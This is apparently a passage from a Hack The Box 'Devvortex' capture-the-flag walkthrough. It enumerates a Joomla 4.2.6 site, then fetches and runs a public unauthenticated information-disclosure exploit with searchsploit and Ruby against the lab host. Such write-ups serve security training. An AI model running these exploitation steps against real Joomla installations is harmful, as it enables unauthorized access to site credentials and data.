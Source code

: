 ```
echo '10.10.11.242        dev.devvortex.htb' | sudo tee -a /etc/hosts
```

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/d2ffe1ce-7def-45fa-81ee-2031b9c7f7e8)


Navigating to the `/administrator` directory..

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/6969337a-10b3-4774-af60-eeeeb3ea3fee)


##### Enumerating Joomla

Joomla interesting lets see if we can find out the version

Useful Resources: 
https://hackertarget.com/attacking-enumerating-joomla/?ref=benheater.com#joomla-core-version
https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/joomla

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/377a3324-fc35-4967-a920-d2b1fc63ac74)

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/3fd9d11f-18e1-4a2c-b3fd-2300a4a503fb)

`Joomla 4.2.6` lets dig and search for some exploits

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/2b59140b-a62f-4f46-9832-db6f59657ef9)

Running `searchsploit joomla 4.2.6` we can see that there is an unauthenticated information disclosure vulnerability we can try. 

```
Joomla! v4.2.8 - Unauthenticated information disclosure | php/webapps/51334.py
```

```
searchsploit -m php/webapps/51334.py
```

Looking over the source code, we can see it's actually a `ruby` script

```
mv 51334.py exploit.rb
```

to work this script we need to install few missing gems:

```
sudo gem install httpx
sudo gem install docopt
sudo gem install paint
```

```
ruby exploit.rb http://dev.devvortex.htb
```

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/e9145417-6342-4506-a407-efb05a9171b3)
